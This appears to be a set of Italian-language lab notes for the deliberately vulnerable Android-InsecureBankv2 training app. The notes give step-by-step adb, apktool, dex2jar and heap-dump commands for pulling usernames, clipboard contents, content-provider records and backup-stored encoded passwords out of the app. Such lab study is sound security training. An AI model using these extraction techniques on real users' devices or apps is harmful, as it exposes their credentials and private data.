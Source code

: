# Android-InsecureBankv2

> https://github.com/dineshshetty/Android-InsecureBankv2

## Server setup

`$ cd AndroLabServer`

`# pip install -r requirements.txt`

`$ python app.py`

## App setup

- accedi all'app

- usa una delle seguenti credenziali

	- dinesh/Dinesh@123$
	- jack/Jack@123$

- configura indirizzo IP e porta della macchina sul quale è attivo `AndroLabServer`

### Utils

#### Apktool To Smali

`$ apktool d InsecureBankv2.apk`

#### Decompiling Android Applications

> https://github.com/skylot/jadx

> https://github.com/pxb1988/dex2jar

`$ mkdir InsecureBankv2_apk`

`$ unzip InsecureBankv2.apk -d InsecureBankv2_apk`

`$ cd InsecureBankv2_apk`

`$ d2j-dex2jar classes.dex`

`$ jadx-gui classes-dex2jar.jar`

#### Reading Android Memory

in Android Studio apri il codice dell'app

`Run` -> `Profile...` -> `1. app`

`+` -> `Emulator Unknown` -> `com.android.insecurebankv2`

tasto destro -> `Open memory` -> `Record`

usa l'app

`Dump Java Heap`

`$ hprof-conv memory-*.hprof memory-*-formatted.hprof`

apri `memory-*-formatted.hprof` con [MemoryAnalyzer](https://www.eclipse.org/mat/downloads.php)

`Group by package`

`com` -> `android` -> `insecurebankv2` -> tasto destro su una qualsiasi classe -> `List object with` -> `outgoing preferences`

#### Android Keyboard Cache

dal login `Add to dictionary` dell'username

- `$ adb pull /data/data/com.android.providers.userdictionary/databases/user_dict.db`

- `$ sqlite3 user_dict.db`

- `sqlite> select * from words;`

```
...
1|dinesh|250|en_US|0|
...
```

#### Android Pasteboard

- `$ adb shell ps | grep insecure`

```
u0_a60    6101  1153  1301764 55260 ffffffff 30ac5b7a S com.android.insecurebankv2
```

- `$ adb shell su u0_a60 service call clipboard 2 s16 com.android.insecurebankv2`

```
Result: Parcel(
  0x00000000: 00000000 00000001 00000001 ffffffff '................'
  0x00000010: 00000001 0000000a 00650074 00740078 '........t.e.x.t.'
  0x00000020: 0070002f 0061006c 006e0069 00000000 '/.p.l.a.i.n.....'
  0x00000030: 00000000 00000001 00000000 0000000c '................'
  0x00000040: 00310031 00310031 00310031 00310031 '1.1.1.1.1.1.1.1.'
  0x00000050: 00310031 00310031 00000000 00000014 '1.1.1.1.........'
  0x00000060: 00000000 00000000 0000000c 00000021 '............!...'
```

#### Android Content Provider

> app/src/main/AndroidManifest.xml

```
<provider android:authorities="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:name="com.android.insecurebankv2.TrackUserContentProvider"/>
```

- `$ grep "content://" -r InsecureBankv2/`

```
InsecureBankv2/smali/com/android/insecurebankv2/TrackUserContentProvider.smali:.field static final URL:Ljava/lang/String; = "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers"
```

- `$ adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`

```
Row: 0 id=1, name=jack
Row: 1 id=2, name=jack
Row: 2 id=3, name=jack
```

#### Android Backup Functionalities

> app/src/main/AndroidManifest.xml

```
<application android:allowBackup="true" android:debuggable="true" android:icon="@mipmap/ic_launcher" android:label="@string/app_name" android:theme="@android:style/Theme.Holo.Light.DarkActionBar">
```

- `$ adb backup -apk -shared com.android.insecurebankv2`

- `$ ( printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" ; tail -c +25 backup.ab ) |  tar xfvz -`

- `$ cat apps/com.android.insecurebankv2/sp/mySharedPreferences.xml`

```
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="superSecurePassword">vK3CrqW6+zg1s9V0YZp0Uw==
    </string>
    <string name="EncryptedUsername">amFjaw==
    </string>
</map>
```

- `$ cat apps/com.android.insecurebankv2/sp/com.android.insecurebankv2_preferences.xml`

```
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="serverport">8888</string>
    <string name="serverip">192.168.1.77</string>
</map>
```

